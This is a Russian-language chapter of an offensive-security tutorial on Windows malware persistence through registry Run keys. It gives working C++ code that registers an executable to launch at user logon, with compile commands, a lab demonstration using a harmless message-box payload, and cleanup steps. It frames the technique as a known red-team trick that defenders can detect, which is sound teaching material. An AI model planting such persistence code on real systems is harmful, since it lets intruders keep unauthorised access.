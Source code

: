 \newpage
\subsection{67. Разработка вредоносного ПО: закрепление (persistence) - часть 1. Ключи автозапуска реестра. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/51/2022-04-20_09-43.png){width="80%"}    

Этот раздел открывает главу о техниках и трюках закрепления вредоносного ПО в Windows.    

Сегодня я расскажу о результате собственного исследования "классического" трюка закрепления: ключей автозапуска в реестре.    

### ключи автозапуска

Добавление записи в "ключи автозапуска" в реестре приведёт к выполнению указанного приложения при входе пользователя в систему. Эти приложения будут выполняться в контексте пользователя и иметь уровень разрешений, соответствующий его учётной записи.    

Следующие ключи автозапуска создаются в Windows по умолчанию:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-57.png){width="80%"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-58.png){width="80%"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-59.png){width="80%"}    

> Обратите внимание, что это может использоваться как один из способов анти-VM (VirtualBox).    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-59_1.png){width="80%"}    

Злоумышленники могут использовать эти конфигурационные пути для запуска вредоносного ПО и обеспечения его закрепления после перезагрузки системы. Они также могут маскировать записи в реестре, делая их похожими на легитимные программы.    

### практический пример

Рассмотрим практический пример. Допустим, у нас есть *"вредоносное ПО"* `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Скомпилируем его:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-08.png){width="80%"}    

Сохраним его в папку `Z:\\2022-04-20-malware-pers-1\`:    

![pers](./images/51/2022-04-20_19-10.png){width="80%"}    

Теперь создадим скрипт `pers.cpp`, который создаст ключи реестра для автозапуска `hack.exe` при входе в Windows:    

```cpp
/*
pers.cpp
windows low level persistense 
via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видите, логика здесь самая простая. Мы просто добавляем новый ключ в реестр. Ключи реестра можно добавлять через терминал в ключи автозапуска для обеспечения закрепления, но так как я люблю писать код, я хотел показать, как сделать это с помощью нескольких строк кода.    

### демонстрация

Скомпилируем наш скрипт `pers.cpp`:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-20.png){width="80%"}    

Сначала проверим ключи реестра на машине жертвы:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-35.png){width="80%"}    

Затем запускаем `pers.exe` и проверяем снова:   

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-39.png){width="80%"}    

Как видите, новый ключ добавлен, как и ожидалось.    
Теперь проверим всё в действии: выйдем из системы и войдём снова:    

![pers](./images/51/2022-04-20_09-40.png){width="80%"}    

![pers](./images/51/2022-04-20_09-40_1.png){width="80%"}    

![pers](./images/51/2022-04-20_09-44.png){width="80%"}    

Pwn! Всё работает идеально :)    

После завершения эксперимента удаляем ключи:    

```powershell
Remove-ItemProperty -Path \
"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" \
-Name "hack"
reg query \
"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-46.png){width="80%"}    

### Windows 11

Этот метод также работает на `Windows 11`:    

![pers](./images/51/2022-04-21_10-29.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_1.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_2.png){width="80%"}    

![pers](./images/51/2022-04-21_10-31.png){width="80%"}    

И очистка системы:    

![pers](./images/51/2022-04-21_10-32.png){width="80%"}    

### Заключение

Создание ключей реестра для выполнения вредоносного приложения во время входа в Windows - один из старейших трюков в арсенале красных команд. Различные злоумышленники и известные инструменты, такие как Metasploit, Powershell Empire, предоставляют эту возможность, поэтому опытные специалисты синих команд смогут выявить такую вредоносную активность.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[исходный код на github](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    
